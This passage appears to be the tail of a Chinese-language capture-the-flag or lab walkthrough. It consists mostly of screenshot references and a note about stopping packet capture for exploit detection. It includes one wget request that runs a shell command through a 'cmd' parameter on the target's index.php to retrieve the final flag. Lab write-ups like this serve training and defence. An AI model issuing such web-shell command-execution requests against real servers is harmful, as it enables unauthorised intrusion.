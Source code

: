 ```sh
# 得到正确指令
wget "http://192.169.40.1/index.php?cmd=ls /tmp"  -O /tmp/result && cat /tmp/result
```
得到最后一个flag

![](./img/5f.png)

场景完成截图打卡

![](./img/完成.png)




### 3. 漏洞利用检测

攻击结束后靶机停止抓包

![](./img/抓包.png)
